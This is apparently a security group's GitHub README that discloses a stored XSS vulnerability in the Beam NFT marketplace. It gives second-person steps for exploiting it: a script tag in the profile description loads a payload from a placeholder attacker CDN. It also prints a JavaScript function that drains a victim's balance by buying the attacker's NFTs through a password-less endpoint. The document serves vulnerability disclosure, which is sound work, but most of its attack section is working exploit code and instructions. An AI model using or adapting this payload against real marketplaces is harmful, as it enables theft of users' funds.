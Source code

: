 <div align="center">
  <img title="" src="images/prismsec.png" alt="PrismSec logo" data-align="center" width="400">
  </br>

<p><i>Here we present the beamnft.art marketplace vulnerability and an example exploit.</i></p>
  <hr>
</div>

# Vulnerability - Stored XSS

[The Beam NFT Marketplace](https://beamnft.art/) is vulnerable to a [XSS attack](https://owasp.org/www-community/attacks/xss/), which allows malicious scripts to be embedded into the marketplace.

> Click the XSS link above to read about what an XSS attack is, we wont go into that here.

## How to execute

Before injecting the malicious payload, you must first download and install the [Beam Web Wallet](https://chrome.google.com/webstore/detail/beam-web-wallet/ilhaljfiglknggcoegeknjghdgampffk), after this head over to [The Beam NFT Marketplace](https://beamnft.art/) and get signed up!

Once signed up, complete your profile, an attacker would want to make this look as presentable and inviting as possible. The description field is where were going to inject our malicious javascript!

## Injection

Within the description field, simply enter the following piece of javascript

```
<script src="https://<yourcdn>.net/nftengine.js"></script>
```

Typically a threat actor may use a CDN to to host the malicious payload, the above code will not work, the payload will load from an external source (source your own cdn and use correct url)

<div align="center">
  <img title="" src="images/description.png" alt="PrismSec logo" data-align="center">
  </br>
</div>

# Exhausting the users balance

Take a look at [nftengine.js](https://github.com/PRISM-Privacy/beamnft-audit/blob/main/nft-engine.js), this is the malicious payload that allows the exhausting and stealing of users funds.

## How it works

The malicious script takes advantage of the buy NFT api endpoint which doesnt require the users password, this allows the malicious actor to buy his own NFTs without the users knowledge in an iterative fashion until the users balance is exhausted!

The script iterates over the NFT prices in the malicious actors collection, if the balance is bigger than the price of the NFT, it executes a buy order, and continues until it has check each NFT in the collection!

```
exhaustFunds = async (balance, nfts) => {
  // balance in BEAM and GROTH
  let beamBalance = balance / 100000000;
  let grothBalance = balance;
  let transactionFee = 100000000;

  console.clear(); // sanitize console

  console.log(`balance in BEAM: ${beamBalance} BEAM`);
  console.log(`balance in GROTH: ${grothBalance} GROTH\n\n`);

  // loop through nft object, show only nfts which are for sale (price > 0)
  for (let key in nfts) {
    if (nfts[key].price != 0 && nfts[key].price < grothBalance) {
      let bought = await buyNft(nfts[key]._id, nfts[key].price);
      grothBalance = grothBalance - (nfts[key].price + transactionFee); // update balance
      console.log(`exhaused ${nfts[key].price / 100000000} BEAM`); // replace console.log with discord notification
      //  TODO - Do we need to wait for => block confirmation before continue?
    } else {
      console.log(
        "didnt exhaust, either NFT isnt for sale or balance too low to afford NFT"
      );
    }
  }
};
```

> The following image shows the required parameters to buy an NFT (no password required), the image after shows the required parameters to withdraw (requires password)

<div align="center">
  <img title="" src="images/buynftendpoint.png" alt="PrismSec logo" data-align="center">
</div>

<div align="center">
  <img title="" src="images/withdrawendpoint.png" alt="PrismSec logo" data-align="center">
</div>

# 
